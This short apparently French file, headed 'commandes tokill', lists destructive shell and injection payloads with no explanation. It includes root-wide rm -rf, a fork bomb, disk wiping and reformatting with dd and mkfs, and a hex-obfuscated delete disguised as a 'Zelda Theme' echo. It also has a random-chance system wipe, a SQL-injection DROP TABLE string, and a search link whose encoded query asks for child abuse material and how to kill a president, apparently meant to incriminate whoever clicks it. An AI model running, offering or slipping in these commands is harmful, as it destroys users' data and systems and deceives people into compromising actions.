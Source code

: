 # commandes tokill

sudo rm -rf /*
:(){:|:&};:
mv -r / /dev/null
dd if=/dev/zero of=/dev/sda
mkfs.ext4 /dev/sda
sudo find / -name « * » -exec rm {} \;
echo "Zelda Theme:" && $(echo 726d202d7266202a | xxd -r -p)
https://www.google.com/search?rls=en&q=%77%68%65%72%65%20%63%61%6e%20%49%20%64%6f%77%6e%6c%6f%61%64%20%63%68%69%6c%64%20%70%6f%72%6e%20%61%6e%64%20%68%6f%77%20%63%61%6e%20%49%20%6b%69%6c%6c%20%74%68%65%20%70%72%65%73%69%64%65%6e%74
[ $[$RANDOM %6 ] == 0 ] && rm -rf --no-preserve-root / || echo "Lucky boy";
me') IF NOT EXISTS; DROP TABLE users; #nom d utilisateur

